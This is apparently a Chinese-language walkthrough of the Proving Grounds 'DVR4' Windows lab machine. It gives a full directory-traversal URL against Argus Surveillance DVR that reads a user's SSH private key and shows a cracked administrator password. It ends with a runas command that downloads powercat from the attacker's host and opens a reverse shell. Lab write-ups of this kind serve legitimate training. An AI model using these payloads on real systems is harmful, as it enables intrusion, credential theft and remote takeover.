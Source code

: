 ```yaml
---
title: Proving Grounds Practice-DVR4-Windows
date: 2025-9-16 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250916165039094](./DVR4-windows/image-20250916165039094.png)

![image-20250916165046365](./DVR4-windows/image-20250916165046365.png)

# web服务

可以在最上排help->About the program中找到版本号

![image-20250916174721328](./DVR4-windows/image-20250916174721328.png)

然后我们搜索该版本存在的漏洞，存在目录穿越漏洞

[Argus Surveillance DVR 4.0.0.0 - Directory Traversal - Windows_x86 webapps Exploit](./https://www.exploit-db.com/exploits/45296)

可以成功利用

![image-20250916174841326](./DVR4-windows/image-20250916174841326.png)

在Users下发现了两个用户

![image-20250916174902072](./DVR4-windows/image-20250916174902072.png)

可以读取viewer用户的私钥，路径`C:/Users/viewer/.ssh/id_rsa`

完整的URL:http://192.168.160.179:8080//WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers/Viewer/.ssh/id_rsa%20&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=%22

![image-20250916175015157](./DVR4-windows/image-20250916175015157.png)

然后将私钥保存到本地，赋予600权限，使用ssh就可以得到viewer用户的shell

# 提权

我们在查询DVR4的漏洞时还找到一个[s3l33/CVE-2022-25012：此弱密码加密脚本的更新版本 --- s3l33/CVE-2022-25012: Updated version of this weak password encryption script](./https://github.com/s3l33/CVE-2022-25012)

DVR4用户的密码存到`C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`

该密码可以被破解，那么肯定会有人问为什么不直接通过目录穿越读这个文件，直接读到密码然后ssh连接了，通过目录穿越读一下就知道了，是读不全的，没有下面的密码部分

![image-20250916195748999](./DVR4-windows/image-20250916195748999.png)

使用上面给出的链接中的脚步可以破解该密码

![image-20250916195819694](./DVR4-windows/image-20250916195819694.png)

`administrator:14WatchD0g$`

直接通过ssh连接会显示权限不足

![image-20250916195857124](./DVR4-windows/image-20250916195857124.png)

我们先尝试一下这个密码是否是系统用户的密码

![image-20250916200031015](./DVR4-windows/image-20250916200031015.png)

的确是，那么我们就可以通过`runas`来以`administrator`用户执行我们想要执行的命令了

通过`powercat`反弹`shell`即可

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>runas /user:administrator "cmd /c powershell IEX(New-Object System.Net.WebClient).D
ownloadString('http://192.168.45.222:8000/powercat.ps1');powercat -c 192.168.45.222 -p 8002 -e cmd"                                  
Enter the password for administrator:
```

![image-20250916200304028](./DVR4-windows/image-20250916200304028.png)